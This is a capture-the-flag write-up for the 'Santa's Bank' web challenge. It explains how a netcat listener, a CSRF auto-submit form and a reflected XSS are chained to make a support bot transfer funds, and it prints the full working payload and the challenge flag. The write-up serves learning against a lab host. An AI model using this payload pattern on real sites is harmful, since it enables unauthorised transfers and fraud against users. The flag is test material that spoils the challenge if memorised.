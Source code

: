 # [HV22.14] Santa's Bank

<table>
  <tr>
    <th>Categories</th>
    <td>Web Security</td>
  </tr>
  <tr>
    <th>Level</th>
    <td>medium</td>
  </tr>
  <tr>
    <th>Author</th>
    <td>HaCk0</td>
  </tr>
</table>

## Description
Santa has lost faith and trust in humanity and decided to take matters in his own hands: He opens a new bank.

He announced the release with the following message:

For Christmas, our bank has a generous offer: save 100 € in your savings account and get a promo code!

Due to mistrust, he didn't connect his bank and its employees to the internet.

Can you hack bank?

## Solution
From the challenge description and the web app, I concluded the following:
- Find a different account with a balance of >100$.
- Transfer 100$ to our account from that other account.

The support page looks suspicious. We can paste a URL that then gets opened by a support agent? Awesome!

![Support page](./dec14-support.png)

To validate the assumption, I connected via VPN and started a `nc -l 1234` on my machine.

The URL dropped on the support page was something like `http://<my-ip-address>:1234`.

And indeed, there was a http request shortly after I "opened my support ticket".

Cool - but how do I get the support elf to transfer money to me? An Cross-Site Scripting (XSS) vulnerability would be handy for this... The Cross-Site Request Forgery (CSRF) vulnerability was already given (since there was no anti-CSRF token present).

Searching through the webapp, I discovered an XSS vulnerability on the transfer page where the destination account was reflected if it was invalid.

With this, I was able to create the following payload returned from my "server" run via netcat (`nc -l 1234`), abusing the CSRF and XSS vulnerabilities in the web application:
1. As soon as the document was loaded, a POST request was sent to the `/transfer` endpoint including an invalid destination account.
2. The invalid destination account exploited the XSS vulnerability and executed a script with the following steps in the context of the support elf.
3. Extract the support elf's account number from the main page.
4. Create a transfer request by setting up a form data structure including my account as a target account.
5. POST request to the `/transfer` endpoint to trigger the transfer of 100$.

Here's the full payload:
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 994
Server: ludus

<html>
<body onload='document.CSRF.submit()'>
<form action='https://8c710973-d748-4db8-87f6-1ce2e24933b1.idocker.vuln.land/transfer' method='POST' name='CSRF'>
    <input type='hidden' name='from' value='DC57C6B34ACC1AF505CB'>
    <input type='hidden' name='to' value='asdASDF<script>
        (async() =>{
            let text  = await fetch("https://8c710973-d748-4db8-87f6-1ce2e24933b1.idocker.vuln.land/").then((r) => r.text());
            let regex = /([0-9A-F]{20})/;
            let srcAccount = regex.exec(text)[0];
            let formData = new FormData();
            formData.append("from", srcAccount);
            formData.append("to", "DC57C6B34ACC1AF505CB");
            formData.append("amount", "100");
            await fetch("https://8c710973-d748-4db8-87f6-1ce2e24933b1.idocker.vuln.land/transfer", {"method": "POST", "body": formData, "credentials": "include"});
        })();
        </script>'>
    <input type='hidden' name='amount' value='100'>
</form>
</body>
</html>
```

And we got that promotion code!

![Promotion code](./dec14-promotion.png)

## Links
- https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery.md#how-to-test

## Flag
```
HV22{XSS_XSRF_TOO_MANYS_XS}
```
